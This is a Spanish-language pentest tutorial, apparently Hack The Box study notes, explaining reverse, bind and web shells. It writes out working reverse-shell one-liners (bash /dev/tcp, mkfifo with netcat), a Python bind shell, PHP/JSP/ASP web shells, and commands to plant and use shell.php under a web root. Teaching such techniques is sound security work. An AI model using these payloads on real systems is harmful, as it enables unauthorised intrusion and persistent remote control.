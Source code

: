 ```yaml
---
title: Tipos de intérpretes de comandos
published: true
---
```


Al comprometer un sistema y explotar una vulnerabilidad para ejecutar comandos de forma remota en los objetivos comprometidos, necesitamos un método de comunicación con el sistema; de
forma que no tengamos que "reexplotar" la misma vulnerabilidad cada vez que queramos ejecutar un comando. Por lo tanto, precisamos de una conexión fiable y directa al terminal del
sistema. 

Una manera de conectar a un sistema comprometido es a través de los protocolos de red, como SSH (Linux) o WinRM (Windows). Debido a que estos protocolos requieren credenciales de inicio
de sesión, necesitaríamos ejecutar comandos de antemano para ganar acceso a ellos.

La otra manera de conseguir Ejecución Remota de Código (RCE) es mediante los intérpretes de comandos (_shells_).  
Como ya vimos, hay 3 tipos principales de intérpretes de comandos:  
- _Reverse Shell_ --> Se conecta de vuelta a nuestro sistema y nos da el control a través de una conexión inversa
- _Bind Shell_ -----> Espera a que nos conectemos y nos proporciona el control cuando lo hemos hecho
- _Web Shell_ ------> Se comunica a través de un servidor _web_, acepta nuestros comandos a través de parámetros HTTP, los ejecuta e imprime la salida  
Vamos a adentrarnos en cada uno de estos intérpretes.

### [](#header-1)Intérprete inverso

Es el tipo más común, el más rápido y más sencillo para obtener acceso a un objetivo comprometido. Una vez encontramos una vulnerabilidad que permite ejecución remota de código en el
objetivo, nos ponemos en modo de escucha con `netcat` en un puerto específico. Acto seguido, podemos ejecutar un comando de intérprete inverso que conecte el intérprete remoto del
sistema a nuestra escucha por `netcat`, consiguiendo una conexión inversa sobre el sistema remoto.

#### [](#header-2)Escucha por Netcat

Haremos:  
`nc -lvnp <puerto>`

Parámetros:  
+ -l ------> Modo de escucha, esperando una conexión hacia nosotros
+ -v ------> Modo detallado, para saber cuándo recibimos una conexión
+ -n ------> Desactivar resolución DNS y conectar sólo desde/a IPs, para acelerar la conexión
+ -p 1234 -> Número del puerto que `netcat` escucha y dónde se debe enviar la conexión inversa

#### [](#header-3)IP de conexión

Primero debemos encontrar la IP de nuestro sistema para enviarnos una conexión inversa:  
`ip a`  
En HTB nos suele interesar dónde pone `tun0`, ya que es la red a la que nos hemos conectado mediante nuestra Red Privada Virtual (VPN).  
En un test de penetración real, quizá estemos conectados ya a la misma red o quizá sea un test externo, por lo que deberíamos conectar desde el 'eth0' o similar.

#### [](#header-4)Comando de Intérprete Inverso

El comando a ejecutar depende del SO del objetivo y de a qué aplicaciones y comandos podamos acceder. Los siguientes comandos suelen ser fiables para ganar una conexión inversa:  
`bash -c 'bash -i >& /dev/TCP/<IP>/<puerto> 0>&1'` --> Linux  
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <Puerto> > /tmp/f` --> Linux  
El caso de la powershell (Windows) es demasiado extenso como para que tenga sentido pegarlo aquí, así que páginas como _PayloadsAllTheThings_ nos serán de ayuda para esos casos.

Al recivir la conexión en el modo escucha de `netcat`, podemos escribir comandos y recibir la respuesta en nuestra máquina. Al usar un _Reverse Shell_, es importante tener en cuenta
su fragilidad: en caso de parar el comando del intérprete inverso o perder la conexión por cualquier motivo, deberemos repetir el proceso inicial.

### [](#header-5)Intérprete enlazado

De forma contraria al intérprete inverso, somos nosotros quienes hemos de conectarnos al puerto en escucha del objetivo. Al ejecutar un comando de intérprete enlazado, empezará
la escucha en un puerto del objetivo (con su intérprete enlazado a este). Tendremos que conectarnos a ese puerto mediante `netcat` y ganaremos el control a través de un intérprete
en ese sistema.

#### [](#header-6)Comando de Intérprete Enlazado

De nuevo hay comandos que nos permiten iniciar un intérprete enlazado desde la máquina objetivo (en este caso nos interesa establecer 0.0.0.0 como IP y 1234 como puerto, para poder
conectar desde cualquier lugar). Algunos son:  
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1 -lvp 1234 >/tmp/f` <-- bash
`python -c 'exec("""import socket as s, subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,
a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`  
...

#### [](#header-7)Conexión por Netcat

Al tener un intérprete de comandos esperándonos en el puerto especificado, podemos conectarnos con:  
`nc <IP> <Puerto(1234)>`

Al contrario que en un _Reverse Shell_, si tiramos la conexión por el motivo que sea, podemos reconectarnos de forma inmediata. A no ser, que se detenga el intérprete enlazado o
se reinicie la máquina remota.

#### [](#header-8)Actualizando la TTY

Al conectar a un intérprete con `Netcat`, no podremos mover el cursor ni acceder al histórico de comandos. Para poder hacerlo, debemos actualizar el entorno de entrada y salida
de texto (teletipo). La idea es mapear nuestro TTY con el TTY remoto.  
Hay diversas maneras de hacerlo. Nosotros utilizaremos el método `python/stty` en nuestro intérprete:  
`python -c 'import pty; pty.spawn("/bin/bash")'`  
Después hacemos [CTRL + z] para poner nuestro intérprete en segundo plano y volver a nuestro terminal local, para introducir:  
`stty raw -echo`  
`fg`  
Al hacer esto, nuestro intérprete con `netcat` volverá a primer plano y mostrará una línea en blanco. Podemos apretar [ENTER] para volver a nuestro intérprete o poner `reset` y
apretar [ENTER] para traerla de nuevo. Una vez hecho esto tendremos nuestro intérprete TTY con todas las funciones.

Puede que observemos que nuestro intérprete no cubre la terminal completa. Para arreglarlo debemos abrir otro intérprete en otro escritorio para comprobar los siguientes valores:  
`echo $TERM` Ejemplo de salida: xterm-256color  
`stty size`  Ejemplo de salida: 67 318 (filas y columnas)  
Luego en nuestro intérprete `netcat` hacemos:  
`export TERM=xterm-256color` y  
`stty rows 67 columns 318`  

Finalmente, nos queda un intérprete `netcat` igual a nuestro terminal, como si de SSH se tratara.

### [](#header-9)Intérprete Web

Suele ser un _script_ (por ejemplo en `PHP` o `ASPX`), que nos permite introducir comandos mediante parámetros de peticiones HTTP como `GET` o `POST`, ejecutan nuestro comando
e imprimen la salida.

#### [](#header-10)Escribiendo un Intérprete Web

Primero, necesitamos escribir nuestro intérprete web que admitirá comandos a través de una petición `GET`, los ejecutará e imprirá su salida. Lo más típico es un _script_ de una
línea, corto y fácil de memorizar. Algunos son los siguientes:  
`<?php system($_REQUEST["cmd"]); ?>` --> PHP  
`<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>` --> JSP  
`<% eval request("cmd") %>` --> ASP  

#### [](#header-11)Subiendo un Intérprete Web

Una vez tenemos nuestro intérprete web, necesitamos colgarlo en el directorio raíz del anfitrión web para ejecutarlo mediante el navegador web. Esto se puede hacer a través de una
vulnerabilidad en una funcionalidad de carga de archivos, que nos permite escribir un intérprete en un archivo (`shell.php` por ejemplo) y subirlo para luego acceder y ejecutar
comandos.

De todas formas, si sólo tenemos RCE por un _exploit_, podemos escribir nuestro intérprete directamente en la raíz web para acceder desde la web. Por lo tanto, el primer paso
es localizar la raíz web. Las siguientes raíces son las más comunes:  
- Apache ---> /var/www/html/
- Nginx ----> /usr/local/nginx/html/
- IIS ------> c:\inetpub\wwwroot\
- XAMPP ----> C:\xampp\htdocs\

Podemos comprovar esos directorios para ver que raíz web está en uso y hacer `echo` para escribir nuestro intérprete. Por ejemplo, para un anfitrión Linux con Apache podríamos
hacer:  
`echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`  

#### [](#header-12)Accediendo al Intérprete Web

Una vez escrito, podemos acceder por el navegador o con `cURL`. Podemos visitar la página `shell.php` en el sitio comprometido y usar `?cmd=id` para ejecutar el comando `id`.  
O también hacer `curl http://<IP>:<Puerto>/shell.php?cmd=id`.  

Esto funciona de igual forma con otros comandos.  
Por un lado, algo muy interesante de un intérprete web, es que nos permite eludir cualquier restricción del cortafuegos que tenga
el sitio, pues no abrirá una conexión nueva, sino que correrá en el puerto web que use la aplicación. Otro punto a favor es que si se reinicia el anfitrión comprometido, el intérprete
seguirá en su sitio, por lo que no tendremos que explotarlo de nuevo.

Por otro lado, al no ser interactivo como los anteriores, deberemos cambiar la URL cada vez que ejecutemos un comando. De cualquier forma, en casos extremos, es posible crear un
_script_ en `Python` que nos automatice el proceso, dándonos un intérprete web semi-interactivo en nuestro terminal.
